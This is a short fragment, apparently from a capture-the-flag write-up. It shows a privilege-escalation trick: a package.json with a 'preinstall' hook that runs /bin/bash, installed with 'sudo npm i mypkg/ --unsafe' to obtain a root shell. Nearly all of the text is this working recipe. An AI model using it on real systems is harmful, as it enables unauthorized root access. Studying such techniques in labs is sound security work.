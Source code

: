 ##### Instaling package for escalation with npm sudo
```js
Write package as:  
  
algernon@holiday:/dev/shm$ cat mypkg/package.json   
{  
  "name": "root_please",  
  "version": "1.0.0",  
  "scripts": {  
    "preinstall": "/bin/bash"  
  }  
}  
  
Now just give it a run for install package and get the root:  
  
algernon@holiday:/dev/shm$ sudo npm i mypkg/ --unsafe
```
